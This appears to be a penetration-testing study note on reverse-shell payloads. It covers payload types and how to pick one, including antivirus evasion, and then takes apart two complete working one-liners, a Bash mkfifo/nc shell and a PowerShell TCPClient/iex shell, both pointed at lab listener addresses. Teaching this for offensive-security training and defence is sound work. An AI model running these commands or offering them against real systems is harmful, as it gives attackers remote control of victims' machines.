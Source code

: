 ### Payload Types

- **One-Liners**: Manually executed commands (e.g., Bash or PowerShell scripts).
- **Scripts**: Pre-written code (e.g., Nishang’s `Invoke-PowerShellTcp` for PowerShell).
- **Automated Frameworks**: Generated by tools like Metasploit for streamlined delivery.

### Factors Influencing Payload Choice

- **Operating System**: Linux (Bash) vs. Windows (PowerShell).
- **Shell Interpreter**: Must match target’s interpreter (e.g., Bash, PowerShell).
- **Programming Languages**: Web shells depend on server languages (e.g., PHP, ASP).
- **AV Presence**: Requires customization to bypass detection.

## Payload Analysis

### Bash Reverse Shell One-Liner

- **Command**: `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f`
- **Breakdown**:
    - `rm -f /tmp/f`: Deletes `/tmp/f` if it exists.
    - `mkfifo /tmp/f`: Creates a FIFO named pipe.
    - `cat /tmp/f |`: Reads pipe output, piping to the next command.
    - `/bin/bash -i 2>&1`: Launches an interactive Bash shell, redirecting stderr and stdout.
    - `nc 10.10.14.12 7777 > /tmp/f`: Connects to attacker’s listener (10.10.14.12:7777), redirecting output to `/tmp/f`.
- **Purpose**: Delivers a Bash shell to the attacker’s Netcat listener.

### PowerShell Reverse Shell One-Liner

- **Command**: `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
- **Breakdown**:
    - `powershell -nop -c`: Runs PowerShell without profile, executing the script.
    - `$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443)`: Connects to attacker’s listener.
    - `$stream = $client.GetStream()`: Sets up network stream.
    - `[byte[]]$bytes = 0..65535|%{0}`: Creates empty byte array.
    - `while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)`: Reads incoming data.
    - `$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)`: Decodes bytes to ASCII.
    - `$sendback = (iex $data 2>&1 | Out-String)`: Executes commands, redirects output.
    - `$sendback2 = $sendback + 'PS ' + (pwd).Path + '> '`: Formats shell prompt.
    - `$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write(...)`: Sends response.
    - `$client.Close()`: Terminates connection.
- **Purpose**: Establishes a PowerShell reverse shell.
